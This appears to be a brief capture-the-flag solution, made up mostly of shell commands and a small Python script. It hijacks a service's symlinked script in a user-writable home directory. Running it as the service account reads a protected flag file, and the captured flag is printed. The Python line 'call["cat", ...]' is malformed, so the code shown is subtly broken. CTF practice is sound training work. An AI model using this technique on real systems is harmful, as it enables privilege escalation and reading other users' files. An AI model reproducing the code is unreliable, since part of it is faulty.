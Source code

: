 
```bash
ls -l /opt/services/tool-service/tool
tool -> /home/tech/tools/tool.py
mv ~/tools ~/tools_; mkdir ~/tools
vim ~/tools/tool.py
```
```python
#!/usr/bin/python

from subprocess import call

call["cat", "/flags/tool-service"]
```
```bash
sudo -u tool-service /opt/tool-service/tool
FLAG-54732c6b417bab535cd2d0086fd72f97 #thanks @srb_ ! :)
```
